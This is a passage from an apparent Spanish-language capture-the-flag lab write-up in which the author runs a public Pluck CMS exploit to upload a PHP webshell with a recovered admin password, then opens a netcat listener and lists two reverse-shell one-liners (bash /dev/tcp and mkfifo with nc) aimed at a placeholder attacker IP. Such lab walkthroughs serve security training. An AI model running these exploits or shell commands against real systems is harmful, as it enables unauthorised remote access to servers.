 Analizando el Exploit, sube una **WebShell** llamada **shell.phar** que está hecha en **PHP** al directorio `/files`. La sube como el **usuario admin** y el Exploit necesita la IP del objetivo, el puerto, la contraseña del admin y el path que nos lleva a **Pluck**.

Lo único que nos faltaba era la contraseña del **usuario admin** y ya la tenemos.

Vamos a usar el Exploit:
```bash
python3 49909.py 192.168.1.250 80 ElAbueloDeLaAnitta /

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://192.168.1.250:80//files/shell.phar
```
Parece que funcionó.

Comprobemos si funciona la **WebShell**:

<p align="center">
<img src="/assets/images/THL-writeup-sarxixas/Captura7.png">
</p>

Excelente, ahora podemos obtener una **Reverse Shell** aplicándola desde aquí o puedes ocupar esta webshell para enumerar la máquina.

Si quieres obtener una sesión desde tu terminal, haz lo siguiente:

* Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Utiliza cualquiera de las siguientes **Reverse Shell**:
```bash
bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'
.
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc Tu_IP puerto_random >/tmp/f
```
